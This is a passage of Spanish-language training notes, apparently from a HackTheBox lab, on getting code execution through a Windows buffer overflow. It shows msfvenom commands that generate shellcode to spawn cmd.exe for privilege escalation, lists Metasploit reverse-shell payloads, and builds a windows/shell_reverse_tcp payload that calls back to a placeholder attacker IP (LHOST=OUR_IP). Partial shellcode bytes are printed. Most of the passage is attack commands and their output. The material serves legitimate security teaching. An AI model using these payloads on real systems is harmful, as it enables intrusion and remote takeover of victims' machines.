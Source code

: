 ### Obtener ejecución de código

Lo que tenemos que hacer es cambiar nuestro shellcode para hacer otra cosa. Para la escalada de privilegios locales, podemos usar el mismo comando que usamos para `calc.exe`, pero `CMD=cmd.exe` en su lugar, use lo siguiente:

```shell-session
0xRh4ps00dy@htb[/htb]$ msfvenom -p 'windows/exec' CMD='cmd.exe' -f 'python' -b '\x00'

...SNIP...
buf =  b""
buf += b"\xd9\xc8\xb8\x7c\x9f\x8c\x72\xd9\x74\x24\xf4\x5d\x33"
buf += b"\xc9\xb1\x31\x83\xed\xfc\x31\x45\x13\x03\x39\x8c\x6e"
...SNIP...
```

Si quisiéramos obtener un shell inverso, hay muchas `msfvenom` cargas útiles que podemos usar, de las cuales podemos obtener una lista de la siguiente manera:

```shell-session
0xRh4ps00dy@htb[/htb]$ msfvenom -l payloads | grep windows | grep reverse

...SNIP...
    windows/shell/reverse_tcp                           Spawn a piped command shell (staged). Connect back to the attacker
    windows/shell/reverse_tcp_allports                  Spawn a piped command shell (staged). Try to connect back to the attacker, on all possible ports (1-65535, slowly)
    windows/shell/reverse_tcp_dns                       Spawn a piped command shell (staged). Connect back to the attacker
    windows/shell/reverse_tcp_rc4                       Spawn a piped command shell (staged). Connect back to the attacker
    windows/shell/reverse_tcp_rc4_dns                   Spawn a piped command shell (staged). Connect back to the attacker
    windows/shell/reverse_tcp_uuid                      Spawn a piped command shell (staged). Connect back to the attacker with UUID Support
    windows/shell/reverse_udp                           Spawn a piped command shell (staged). Connect back to the attacker with UUID Support
    windows/shell_reverse_tcp                           Connect back to attacker and spawn a command shell
...SNIP...
```

Podemos utilizar la `windows/shell_reverse_tcp` carga útil de la siguiente manera:

```shell-session
0xRh4ps00dy@htb[/htb]$ msfvenom -p 'windows/shell_reverse_tcp' LHOST=OUR_IP LPORT=OUR_LISTENING_PORT -f 'python'

...SNIP...
buf =  b""
buf += b"\xd9\xc8\xb8\x7c\x9f\x8c\x72\xd9\x74\x24\xf4\x5d\x33"
...SNIP...
```
# Remote Buffer Overflow
